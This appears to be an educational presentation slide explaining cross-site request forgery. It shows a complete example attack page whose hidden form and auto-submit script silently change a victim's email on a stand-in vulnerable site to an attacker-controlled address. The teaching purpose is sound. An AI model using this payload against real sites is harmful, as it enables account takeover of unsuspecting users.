

# Cross-site request forgery (CSRF)

How does CSRF work?
With these conditions in place, the attacker can construct a web page containing the following HTML:
<html>
  <body>
	<form action="https://vulnerable-website.com/email/change" method="POST">
  	<input type="hidden" name="email" value="pwned@evil-user.net" />
	</form>
	<script>
  	document.forms[0].submit();
	</script>
  </body>
</html>